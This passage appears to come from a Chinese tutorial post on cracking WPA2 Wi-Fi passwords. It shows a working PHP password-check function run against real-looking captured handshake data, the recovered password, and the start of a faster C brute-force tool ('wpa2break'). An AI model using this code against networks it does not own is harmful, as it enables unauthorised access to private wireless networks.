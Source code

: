 
以上述的数据为例，使用该函数的代码如下：


```
$g_handshake=array();
$g_handshake["ssid"]=hex2bin("54502d4c494e4b5f344636433930");
$g_handshake["ap_mac"]=hex2bin("20dce64f6c90");
$g_handshake["sta_mac"]=hex2bin("e0b9a51fe794");
$g_handshake["ap_nonce"]=hex2bin("3320ced2535ed697d52c272aeea799d4d188a4603142f37a240f8064d7cdf588");
$g_handshake["sta_nonce"]=hex2bin("b4455d0bc446645c5957434f653ad0bfa59f6be1a265fbf33b7d547b1b484534");
$g_handshake["step2_data"]=hex2bin("0103007502010a00000000000000000001b4455d0bc446645c5957434f653ad0bfa59f6be1a265fbf33b7d547b1b484534000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000001630140100000fac040100000fac040100000fac020000");
$g_handshake["mic"]=hex2bin("887342b8161df230c84880cbe9074ff8");

function is_password($p_handshake,$p_password)
{
  $t_psk=hash_pbkdf2("sha1",$p_password,$p_handshake["ssid"],4096,32,true);
  $t_ptk_data="Pairwise key expansion\0"
                .min($p_handshake["ap_mac"],$p_handshake["sta_mac"])
                .max($p_handshake["ap_mac"],$p_handshake["sta_mac"])
                .min($p_handshake["ap_nonce"],$p_handshake["sta_nonce"])
                .max($p_handshake["ap_nonce"],$p_handshake["sta_nonce"])
                ."\0";
  $t_ptk=hash_hmac("sha1",$t_ptk_data,$t_psk,true);
  $t_mic=hash_hmac("sha1",$p_handshake["step2_data"],substr($t_ptk,0,16),true);
  return substr($t_mic,0,16)==$p_handshake["mic"];
}

$g_password="LINUXZSJ";
echo is_password($g_handshake,$g_password);

```


程序输出1，说明”LINUXZSJ”是该AP的密码。

==================阶段五：用C语言实现==================

php因为语法简单明晰，用来演示算法不错，但真用来大规模计算，效率不敢恭维。在我机器上，循环1000次，php用时12.6秒，而C用时2.6秒，将近5倍！

C语言的实现就不解释了，直接给出代码。共fastpbkdf2.h、fastpbkdf2.c、hmac.h、hmac_sha1.c、wpa2break.h、wpa2break.c和main.c七个文件。其中，fastpbkdf2.h和fastpbkdf2.c的源码请参考<a href="../pbkdf2-shaX摘要算法以及C语言实现/index.html">《pbkdf2-shaX摘要算法以及C语言实现》</a>，而hmac.h、hmac_sha1.c的源码请参考<a href="../hmac-sha1摘要算法以及C语言实现/index.html">《hmac-sha1摘要算法以及C语言实现》</a>。以下给出wpa2break.h、wpa2break.c和main.c的源码～

wpa2break.h


```
#ifndef WPA2BREAK_H
#define WPA2BREAK_H

#include <stdint.h>

#define WPA2_SSID_MAX_LEN                   32
#define WPA2_MAC_LEN                         6
#define WPA2_NONCE_LEN                      32
#define WPA2_STEP2_DATA_LEN                121

#define WPA2_MIC_OFFSET                     81
#define WPA2_PSK_LEN                        32
#define WPA2_PBKDF2_LOOP                  4096
#define WPA2_WORD                             "Pairwise key expansion\0"
#define WPA2_WORD_LEN                       23
#define WPA2_PTK_LEN                        16
```